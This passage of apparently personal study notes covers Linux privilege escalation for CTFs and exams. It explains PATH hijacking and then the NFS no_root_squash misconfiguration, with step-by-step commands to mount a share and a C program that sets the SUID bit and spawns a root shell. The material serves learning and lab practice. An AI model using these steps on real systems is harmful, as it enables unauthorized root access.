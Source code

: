 		  ```bash
		  find / -writable 2>/dev/null
		  ```
		- Can you modify $PATH?
		- Is there a script/application you can start that will be affected by this vulnerability?
	- Let's say there is a script or application which has special privileges. When you run that script or application, it tries to launch a system binary for which it will ask `$PATH` to look for and `$PATH` will look for that binary inside folders present in the `$PATH` variable.
	- What makes a privilege escalation possible within this context is that the path script runs with root privileges.
- ## NFS (Network File Sharing)
	- Another vector that is more relevant to CTFs and exams is a misconfigured network shell.
	- NFS (Network File Sharing) configuration is kept in the `/etc/exports` file. This file is created during the NFS server installation and **can usually be read by users**.
	- The critical element for this privilege escalation vector is the `no_root_squash` option.
	  ![image.png](../assets/image_1689075532460_0.png)  
	- By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the `no_root_squash` option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
	- Step-by-step:
		- We will start by enumerating **mountable shares** from our attacking machine.
		  ```bash
		  showmount -e [TARGET_IP]
		  ```
		- Make sure to match with `cat /etc/exports` as to which **mountable share** has `no_root_sqash` option and which one can you access in the target machine.
		- Mount the mountable (on attacker machine and first create a dir in /tmp i.e `/tmp/targetShareMount` on attack machine):
		  ```bash
		  mount -o rw [TARGET_IP]:/tmp /tmp/targetShareMount
		  ```
		- `cd` into `/tmp/targetShareMount` and create our executable:
		  ```c
		  int main()
		  {
		  	setuid(0);
		      setgid(0);
		      system("/bin/bash");
		      return 0;
		  }
		  ```
		- Save and compile the executable (nfs.c):
		  ```bash
		  gcc nfs.c -o nfs -w
		  ```
		- Give `nfs` executable the special privilege:
		  ```bash
		  chmod +s nfs
		  ```
		- Execute `nfs` executable in the target machine to gain `root` access.
